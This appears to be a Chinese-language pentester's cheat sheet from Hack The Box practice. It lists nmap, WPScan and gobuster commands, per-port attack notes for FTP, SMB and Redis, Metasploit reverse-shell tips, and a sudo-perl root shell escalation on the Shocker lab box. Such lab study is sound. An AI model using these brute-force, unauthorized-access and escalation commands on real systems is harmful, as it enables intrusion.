 ## 信息收集

### nmap
nmap 参数详解 https://www.freebuf.com/sectool/264941.html

（以下记录一些HTB中用过的方便再次查找）

标准服务检测：nmap -sV ip //-sV 尝试确定端口服务版本

扫描所有65535端口：nmap -p- ip

sudo nmap -T4 -A -p port ip  //T4 提高扫描速率; A 探测系统类型、服务版本、脚本扫描和跟踪路由

### WPScan
常用命令：

`wpscan --url https://brainfuck.htb --disable-tls-checks --api-token $WPSCAN_API`  //这里使用disable-tls-checks绕过证书检查，不然脚本不会运行。

`wpscan --url https://brainfuck.htb/ --enumerate u` //猜解用户

`wpscan --url https://www.xxxxx.wiki/ -e u --wordlist /root/password.txt` // 暴力破解

`wpscan -u https://www.xxxxx.wiki/ -enumerate p` //扫描插件

### 目录发现

#### dirsearch

1. 遇到 `403 /cgi-bin/`的时候，可以dirbuster、gobuster或者其他目录fuzz工具[进一步探索cgi-bin目录下的后缀名为`cgi​, sh​, ​pl​, ​py...`的文件。](https://twitter.com/_johnhammond/status/1348253792530280448)

#### gobuster 

1. [常用命令1](https://vk9-sec.com/gobuster-how-to/)
2. [常用命令2](https://blog.intigriti.com/2021/07/05/hacker-tools-gobuster/)
3. [原项目](https://github.com/OJ/gobuster)

## 端口和用到的端口命令

### port 21 ftp
1. 连接方式：`sudo ftp [ip或者host]`
2. 匿名者登录模式：
   ```
	sudo ftp [ip]
	Connected to [ip].
	220 (vsFTPd 2.3.4)
	Name ([ip]:[id]): anonymous  //这里输入anonymous使用匿名者模式（需要服务器开启anonymous_enable=YES）
	331 Please specify the password.
	Password:					//这里直接回车
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
   ```
3. ftp 内常用命令 https://www.cnblogs.com/answerThe/p/11463117.html
  * 查看文件-get {filename}
  * bye  退出ftp

4. 存在后门的特征
   ```
	21/tcp  open  ftp         vsftpd 2.3.4
   ```

### port 22 SSH

[链接](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh)

主要是暴力破解，可挖性比较低

### port 23 Telnet

1. port 23 telnet: telnet {IP} (该说不说这种默认口令port23真的已经很少很少了吧)

### port 25,465,587 SMTP

[Simple Mail Transfer Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp#sniffing)

### port 110 POP

[Post Office Protocol](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop#hacktricks-automatic-commands)

### port 143 imap

[imap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap)

### port 139,445 SMB
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
```
For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use, as you point out, port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.**
```
1. port 139
2. port 445 SMB :
	* smbclient : 用于连接和传输文件的脚本（linux based）
	* 不知道用户账密时：使用访客或匿名模式查看分享文件夹，`smbclient -L {target_IP}`
	* 探知未配置访问控制的分享文件`smbclient \\\\{target_IP}\\{foldername}`

### port 6379
1. port 6379 Redis:
	* redis 未授权访问 https://blog.csdn.net/qq_41210745/article/details/103309137 
	* `info 获取redis信息`， `select {数字} 切换到指定数据库`，`keys * 列出所有key名称`，`get {key} 获取某个key的内容`

## 漏洞利用

### Metasploit

**注意，在打靶机连了VPN的情况下，（主要在反弹shell场景下）需要将本地监听LHOST改为VPN提供的IP**

在exploit跑不通时，排查如下几个方面：
1. 将本地监听LHOST改为VPN提供的IP
2. 注意指定rhost攻击时，可能也需要指定rport
3. `show payloads`拿到实际payload列表自行尝试单个payload
4. 卸载重装最新版本 `sudo apt-get remove --auto-remove metasploit-framework`


## 提取

### 低权限shell提权案例


```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
10.10.10.56> sudo perl -e 'exec "/bin/bash"'
10.10.10.56> whoami
root
```


